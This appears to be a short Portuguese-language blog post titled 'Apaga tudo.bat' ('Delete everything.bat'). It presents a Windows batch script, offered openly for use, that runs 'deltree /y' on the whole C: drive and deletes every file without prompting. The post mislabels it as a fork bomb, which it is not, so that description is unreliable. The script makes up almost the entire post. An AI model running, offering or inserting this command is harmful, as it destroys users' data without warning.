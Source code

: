 # Apaga tudo.bat

Fork bomb para Windows

```
@echo off

c:

deltree /y c:\*.\*
```


---

> Author: Sidnei Weber  
> URL: https://sidneiweber.com.br/apaga-tudobat/  

